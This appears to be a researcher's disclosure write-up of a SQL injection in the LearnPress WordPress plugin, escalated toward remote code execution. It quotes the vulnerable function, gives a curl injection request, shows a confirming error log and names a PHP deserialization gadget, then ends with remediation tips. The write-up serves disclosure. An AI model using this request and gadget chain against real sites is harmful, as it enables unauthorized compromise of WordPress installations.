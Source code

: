 # LearnPress SQLi to RCE 

Few months back security research regarding WP learning platforms got my attention. (https://research.checkpoint.com/2020/e-learning-platforms-getting-schooled-multiple-vulnerabilities-in-wordpress-most-popular-learning-management-system-plugins/)

From writing there and change logs it was obvios that some of the SQLi vulnerabilities remained in the code and what is more interesting it is easy to be escalated to RCE.

## Eli5 PoC 

Into function `learn_press_duplicate_post_meta` which is called from `learn_press_duplicate_post` we have the following:
```
	function learn_press_duplicate_post_meta( $old_post_id, $new_post_id, $excerpt = array() ) {
		global $wpdb;
		$post_meta_infos = $wpdb->get_results( "SELECT meta_key, meta_value FROM $wpdb->postmeta WHERE post_id=$old_post_id" );
		if ( count( $post_meta_infos ) != 0 ) {
			$excerpt       = array_merge( array( '_edit_lock', '_edit_last' ), $excerpt );
			$excerpt       = apply_filters( 'learn_press_excerpt_duplicate_post_meta', $excerpt, $old_post_id, $new_post_id );
			$sql_query     = "INSERT INTO $wpdb->postmeta (post_id, meta_key, meta_value) ";
			$sql_query_sel = array();
			foreach ( $post_meta_infos as $meta ) {
				if ( in_array( $meta->meta_key, $excerpt ) ) {
					continue;
				}
				if ( $meta->meta_key === '_lp_course_author' ) {
					$meta->meta_value = get_current_user_id();
				}
				$meta_key        = $meta->meta_key;
				$meta_value      = addslashes( $meta->meta_value );
				$sql_query_sel[] = "SELECT $new_post_id, '$meta_key', '$meta_value'";
			}
			$sql_query .= implode( " UNION ALL ", $sql_query_sel );
			$wpdb->query( $sql_query );
		}
	}
```  
From previous reports `$meta_value` was reported as SQLi vulnerable parameter, but `$meta_key` wasn't?!
Having on mind that we talk about WP then we all know that if we have permissions to edit post, then we have permissions to add custom fields (meta fields)
```
curl 'http://local.setup/wp-admin/admin-ajax.php' --data $'_ajax_nonce=0&action=add-meta&metakeyselect=%23NONE%23&metakeyinput=sqli\'payload&metavalue=anything&_ajax_nonce-add-meta=47cfdb164d&post_id=[lesson_id]'
```
In order to execute the SQLi and to be able to insert custom/meta field with any meta value, we need only to duplicate the lesson. Then we have the following :)
```
[Tue Jul 21 22:16:08.289659 2020] [:error] [pid 24069] [client ::1:47077] WordPress database error You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '', 'boom'' at line 1 for query INSERT INTO wp_postmeta (post_id, meta_key, meta_value) SELECT 107, 'count_items', '0' UNION ALL SELECT 107, '_lp_duration', '30 minute' UNION ALL SELECT 107, '_lp_preview', 'no' UNION ALL SELECT 107, 'boom'test', 'boom' made by require_once('wp-admin/admin.php')... LP_Lesson_CURD->duplicate, learn_press_duplicate_post, learn_press_duplicate_post_meta
```
What we can achieve with possibility to insert any meta value? Well that depends of plugin itself and WP setup. If we check the LearnPress code then we can notice following in `learnpress.php`:
```
require_once 'inc/class-lp-debug.php';
```
and this is important because:
```
public function __destruct() {
		if ( ! $this->_handles ) {
			return;
		}
		foreach ( $this->_handles as $handle ) {
			@fclose( $handle );
		}
	}
```
e.g. same situation as WooCommerce => hello RCE :)

## Few facts

- I tried to warn researchers 
- Do not allow interesting gadget chains in your PHP code
- Limit what could be unserialized in your php.ini

## Remediation

- Do not allow SQLi in your code :)


